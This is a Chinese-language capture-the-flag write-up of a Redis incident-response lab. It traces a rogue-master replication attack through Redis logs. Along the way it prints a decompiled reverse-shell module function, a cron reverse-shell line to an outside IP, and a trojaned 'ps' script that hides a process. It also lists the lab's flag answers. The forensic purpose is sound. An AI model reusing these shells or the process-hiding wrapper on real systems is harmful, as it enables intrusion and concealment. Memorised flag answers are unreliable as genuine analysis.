


# 第二章 日志分析 - redis 应急响应

## 1

> 通过本地 PC SSH 到服务器并且分析黑客攻击成功的 IP 为多少, 将黑客 IP 作为 FLAG 提交

初步扫描一下，服务器上没有 web 服务，那也就说明这是一台纯粹的 Redis 服务器

那么查看 `/var/log/redis.log` 日志文件，筛选掉重复的 Redis 服务启动时初始化过程的日志，发现以下记录

```log
419:C 31 Jul 2023 05:25:31.518 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
419:C 31 Jul 2023 05:25:31.520 # Redis version=5.0.1, bits=64, commit=00000000, modified=0, pid=419, just started
419:C 31 Jul 2023 05:25:31.520 # Configuration loaded
419:M 31 Jul 2023 05:25:31.520 * Increased maximum number of open files to 10032 (it was originally set to 1024).
                _._
           _.-``__ ''-._
      _.-``    `.  `_.  ''-._           Redis 5.0.1 (00000000/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._
 ('      ,       .-`  | `,)     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 419
  `-._    `-._  `-./  _.-'_.-'
 |`-._`-._    `-.__.-'_.-'_.-'|
 |    `-._`-._        _.-'_.-'    |           http://redis.io
  `-._    `-._`-.__.-'_.-'    _.-'
 |`-._`-._    `-.__.-'_.-'_.-'|
 |    `-._`-._        _.-'_.-'    |
  `-._    `-._`-.__.-'_.-'    _.-'
      `-._    `-.__.-'_.-'
          `-._        _.-'
              `-.__.-'

419:M 31 Jul 2023 05:25:31.525 # WARNING: The TCP backlog setting of 511 cannot be enforced because /proc/sys/net/core/somaxconn is set to the lower value of 128.
419:M 31 Jul 2023 05:25:31.525 # Server initialized
419:M 31 Jul 2023 05:25:31.525 # WARNING overcommit_memory is set to 0! Background save may fail under low memory condition. To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf and then reboot or run the command 'sysctl vm.overcommit_memory=1' for this to take effect.
419:M 31 Jul 2023 05:25:31.525 # WARNING you have Transparent Huge Pages (THP) support enabled in your kernel. This will create latency and memory usage issues with Redis. To fix this issue run the command 'echo never > /sys/kernel/mm/transparent_hugepage/enabled' as root, and add it to your /etc/rc.local in order to retain the setting after a reboot. Redis must be restarted after THP is disabled.
419:M 31 Jul 2023 05:25:31.525 * Ready to accept connections
419:S 31 Jul 2023 05:33:15.065 * Before turning into a replica, using my master parameters to synthesize a cached master: I may be able to synchronize with the new master with just a partial transfer.
419:S 31 Jul 2023 05:33:15.065 * REPLICAOF 192.168.100.13:8888 enabled (user request from 'id=3 addr=192.168.200.2:64289 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=48 qbuf-free=32720 obl=0 oll=0 omem=0 events=r cmd=slaveof')
419:S 31 Jul 2023 05:33:15.610 * Connecting to MASTER 192.168.100.13:8888
419:S 31 Jul 2023 05:33:15.610 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:33:15.611 # Error condition on socket for SYNC: Connection refused
......
419:S 31 Jul 2023 05:34:02.719 * Connecting to MASTER 192.168.100.13:8888
419:S 31 Jul 2023 05:34:02.719 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:02.720 # Error condition on socket for SYNC: Connection refused
419:S 31 Jul 2023 05:34:03.034 * REPLICAOF 192.168.31.55:8888 enabled (user request from 'id=5 addr=192.168.200.2:64319 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=47 qbuf-free=32721 obl=0 oll=0 omem=0 events=r cmd=slaveof')
419:S 31 Jul 2023 05:34:03.722 * Connecting to MASTER 192.168.31.55:8888
419:S 31 Jul 2023 05:34:03.722 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:33.173 * REPLICAOF 192.168.100.20:8888 enabled (user request from 'id=6 addr=192.168.200.2:64339 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=48 qbuf-free=32720 obl=0 oll=0 omem=0 events=r cmd=slaveof')
419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888
419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.
419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...
419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).
419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1
419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.
419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory
419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file
419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk
419:S 31 Jul 2023 05:34:35.791 * Connecting to MASTER 192.168.100.20:8888
419:S 31 Jul 2023 05:34:35.791 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:35.792 * Non blocking connect for SYNC fired the event.
419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so
419:M 31 Jul 2023 05:34:37.210 # Setting secondary replication ID to 7a73a1a4297a16c50d8465b0cc432444f0e5df71, valid up to offset: 1. New replication ID is 46e68f9593cd148bffe464f0b04bee19ac447c39
419:M 31 Jul 2023 05:34:37.210 * MASTER MODE enabled (user request from 'id=6 addr=192.168.200.2:64339 fd=7 name= age=4 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=34 qbuf-free=32734 obl=0 oll=0 omem=0 events=r cmd=slaveof')
419:M 31 Jul 2023 05:34:37.231 * Module system unloaded
419:M 31 Jul 2023 05:42:00.685 * DB saved on disk
419:M 31 Jul 2023 05:42:42.213 * DB saved on disk
419:M 31 Jul 2023 06:06:44.597 # User requested shutdown...
419:M 31 Jul 2023 06:06:44.597 * Saving the final RDB snapshot before exiting.
419:M 31 Jul 2023 06:06:44.599 * DB saved on disk
419:M 31 Jul 2023 06:06:44.599 * Removing the pid file.
419:M 31 Jul 2023 06:06:44.599 # Redis is now ready to exit, bye bye...
```

很明显，这是一段主从复制的记录，那么结合题目说明来看，这是发生了主从复制攻击，那么根据攻击成功的日志来看

```log
419:S 31 Jul 2023 05:34:03.722 * Connecting to MASTER 192.168.31.55:8888
419:S 31 Jul 2023 05:34:03.722 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:33.173 * REPLICAOF 192.168.100.20:8888 enabled (user request from 'id=6 addr=192.168.200.2:64339 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=48 qbuf-free=32720 obl=0 oll=0 omem=0 events=r cmd=slaveof')
419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888
419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.
419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...
419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).
419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1
419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.
419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory
419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file
419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk
```

即可确定黑客攻击成功的 IP

```flag
flag{192.168.100.20}
```

## 2

> 通过本地 PC SSH 到服务器并且分析黑客第一次上传的恶意文件, 将黑客上传的恶意文件里面的 FLAG 提交

根据这一条日志

```log
419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so
```

在靶机上定位这个文件

```shel
root@ip-10-0-10-2:/var/log# find / -name "exp.so" 2>/dev/null
/exp.so
```

将这个文件下载到本地进行逆向分析



即可找到答案

```flag
flag{XJ_78f012d7-42fc-49a8-8a8c-e74c87ea109b}
```

## 3

> 通过本地 PC SSH 到服务器并且分析黑客反弹 shell 的 IP 为多少, 将反弹 shell 的 IP 作为 FLAG 提交

在上一步找到的样本 `exp.so` 中，找到这个函数

```c
int __cdecl RevShellCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc)
{
    sockaddr_in sa; // [rsp+20h] [rbp-30h] BYREF
    size_t cmd_len; // [rsp+30h] [rbp-20h] BYREF
    int s; // [rsp+38h] [rbp-18h]
    int port; // [rsp+3Ch] [rbp-14h]
    char *port_s; // [rsp+40h] [rbp-10h]
    char *ip_0; // [rsp+48h] [rbp-8h]

    if (argc != 3)
        return RedisModule_WrongArity(ctx);
    ip_0 = (char *)RedisModule_StringPtrLen(argv[1], &cmd_len);
    port_s = (char *)RedisModule_StringPtrLen(argv[2], &cmd_len);
    port = atoi(port_s);
    sa.sin_family = 2;
    sa.sin_addr.s_addr = inet_addr(ip_0);
    sa.sin_port = htons(port);
    s = socket(2, 1, 0);
    connect(s, (const struct sockaddr *)&sa, 0x10u);
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execve("/bin/sh", 0LL, 0LL);
    return 0;
}
```

很明显是一个反弹 shell 的实现

在 `linpeass.sh` 脚本的输出中可以看到



存在有 `*/1 * * * *  /bin/sh -i >& /dev/tcp/192.168.100.13/7777 0>&1` 这一条典型的 bash 反弹 shell 的指令

```flag
flag{192.168.100.13}
```

## 4

> 通过本地 PC SSH 到服务器并且溯源分析黑客的用户名，并且找到黑客使用的工具里的关键字符串 (flag\{黑客的用户 - 关键字符串 \} 注关键字符串 xxx-xxx-xxx)。将用户名和关键字符串作为 FLAG 提交

由于题目要求找到攻击者的用户名，那么很大概率能留下用户名的攻击方式，就是 SSH 公钥

```plaintext
root@ip-10-0-10-2:~# ls -lh /root/.ssh/
total 4.0K
-rw-r--r-- 1 root root 675 Jul 31  2023 authorized_keys
root@ip-10-0-10-2:~# cat /root/.ssh/authorized_keys
REDIS0009�      redis-ver5.0.1�
�edis-bits�@�ctime�tO�dused-mem�XU
 aof-preamble���xxsshB9

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDDh4OEFvyb4ubM7YPvzG/FfO6jE4PjLdmuCUdGP+aeLeJB5SXYT6zHkU9wlfY/Fo4UuBlhTqBaS6Ih/Wf62KepzrMsTQQYcSG/Xp8lgFzVCCFAk7apzxfRCPNk1pxaGiEF6MPoCmUu1UhC3ta3xyh2c4KZls0hyFN9JZsuD+siT8KVqm856vQ+RaTrZi3ThMa5gbeH+v3ZUcO35ZfMKor/uWXffHT0Yi06dsgIMN3faIiBrd1Lg0B5kOTaDq3fHs8Qs7pvR9C4ZTm2AK/Oct8ULdsnfS2YWtrYyC8rzNip9Wf083ZY1B4bj1UoxD+QwgThh5VP3xgRd9KDSzEYIBabstGh8GU5zDxr0zIuhQM35I0aALvojXl4QaaEnZwpqU3ZkojPG2aNC0QdiBK7eKwA38Gk+V8DEWc/TTkO+wm3aXYdll5sPmoWTAonaln1nmCiTDn4jKb73DxYHfSgNIDpJ6fS5kbWL5UJnElWCrxzaXKHUlqXJj3x81Oz6baFNv8= xj-test-user
```

那么就得到了攻击者的用户名 `xj-test-user`

在 Github 上，根据用户名定位到了用户 [xj-test-user - Github](https://github.com/xj-test-user)

其账户下仓库就有用于基于主从复制攻击 Redis 的工具 [xj-test-user/redis-rogue-getshell](https://github.com/xj-test-user/redis-rogue-getshell)

在这个仓库的历史提交中，找到以下记录

[tye · xj-test-user/redis-rogue-getshell@76b1b74](https://github.com/xj-test-user/redis-rogue-getshell/commit/76b1b74b92f9cc6ef2a62985debdf09dcc056636)

即可得到答案

```flag
flag{xj-test-user-wow-you-find-flag}
```

## 5

> 通过本地 PC SSH 到服务器并且分析黑客篡改的命令, 将黑客篡改的命令里面的关键字符串作为 FLAG 提交

根据题目描述，排查 `$PATH` 所有索引命令的目录下的所有可执行文件，发现在 `/usr/bin/` 目录下存在有可疑文件

```plaintext
-rwxrwxrwx 1 root root     178 Jul 31  2023 ps
-rwxr-xr-x 1 root root    131K Jul 31  2023 ps_
```

很明显`ps`不可能就为`178 Byte`大小，查看其文件内容

```bash title="/usr/bin/ps"
#/bin/bash
oldifs="$IFS"
IFS='\$n'
result=$(ps_ $1 $2 $3|grep -v 'threadd' )
for v in $result;
do
        echo -e "$v\t";
done
IFS="$oldifs"
#//c195i2923381905517d818e313792d196
```

即可得到答案

```flag
flag{c195i2923381905517d818e313792d196}
```
